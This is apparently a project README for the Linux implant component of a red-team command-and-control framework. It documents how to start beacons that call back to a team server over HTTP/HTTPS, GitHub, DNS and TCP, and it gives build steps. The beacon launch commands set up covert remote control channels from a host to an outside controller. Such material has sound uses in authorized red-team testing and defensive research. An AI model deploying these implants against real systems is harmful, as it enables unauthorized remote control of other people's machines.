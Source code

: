 # Exploration C2 Linux Implant

## Overview

**Exploration** is a modular Command and Control (C2) framework designed for red team operations. This repository provides the **Beacon** component implemented in C++ for targeting Linux systems. The associated TeamServer and Client components are available in the [C2TeamServer](https://github.com/maxDcb/C2TeamServer) repository.

Multiple Beacons in this project are capable of communicating with the TeamServer over various channels. Supported transport mechanisms include HTTP/HTTPS, GitHub, DNS, and TCP.

## Communication Examples

```bash
# HTTP/HTTPS
BeaconHttp <TEAMSERVER_IP> <LISTENER_PORT> <http|https>
BeaconHttp 10.10.10.10 8443 https
BeaconHttp 10.10.10.10 8080 http

# GitHub
BeaconGithub <GITHUB_USER/REPO> <ACCESS_TOKEN>
BeaconGithub maxDcb/C2Implant ghp_dsfgdfhdf5554456g4fdg465...

# DNS
BeaconDns <DNS_SERVER> <TEAMSERVER_DOMAIN>
BeaconDns 8.8.8.8 bac.superdomain.com

# TCP
BeaconTcp <LISTENER_IP> <LISTENER_PORT>
BeaconTcp 127.0.0.1 4444
```

## Build Instructions

### Submodules & External Dependencies

This project utilizes several external libraries and tools:

* [Donut](https://github.com/TheWover/donut): Generates shellcode from PE files.
* [COFFLoader](https://github.com/trustedsec/COFFLoader): Executes object files, such as those in [CS-Situational-Awareness-BOF](https://github.com/trustedsec/CS-Situational-Awareness-BOF).
* [cpp-base64](https://github.com/ReneNyffenegger/cpp-base64): Provides base64 encoding/decoding.
* [nlohmann/json](https://github.com/nlohmann/json): JSON parsing library.

### Building the Linux Beacons and Modules

Initialize submodules and prepare the build environment:

```bash
git submodule update --init
mkdir build
cd build
```

Compile with or without tests and logging:

```bash
# With tests and logs
cmpake .. -DCMAKE_PROJECT_TOP_LEVEL_INCLUDES=./conan_provider.cmake -DWITH_TESTS=ON

# Without tests and logs
cmake .. -DCMAKE_PROJECT_TOP_LEVEL_INCLUDES=./conan_provider.cmake -DWITH_TESTS=OFF

make -j4
```

Project can be build with the C2Core package

```
# download last linux package
url="$(curl -sH 'Accept: application/vnd.github+json' \
  ${GITHUB_TOKEN:+-H "Authorization: Bearer $GITHUB_TOKEN"} \
  'https://api.github.com/repos/maxDcb/C2Core/releases?per_page=100' \
  | jq -r '[.[] | select(.tag_name|startswith("linux-"))]
           | sort_by(.created_at) | reverse
           | .[0].assets[]
           | select(.name|test("^C2Core-Linux.*"))
           | .browser_download_url' | head -n1)"

fname="${url##*/}"
curl -L "$url" -o "$fname"
echo "Downloaded: $fname"

mkdir -p C2Core-Linux && tar -xzf C2Core-Linux.tar.gz -C C2Core-Linux

export CMAKE_PREFIX_PATH=`pwd`/C2Core-Linux

cmake .. -DCMAKE_PROJECT_TOP_LEVEL_INCLUDES=./conan_provider.cmake

make -j4
```


### Output Locations

* Compiled Beacons: `Release/Beacons`
* Compiled Modules: `Release/Modules`
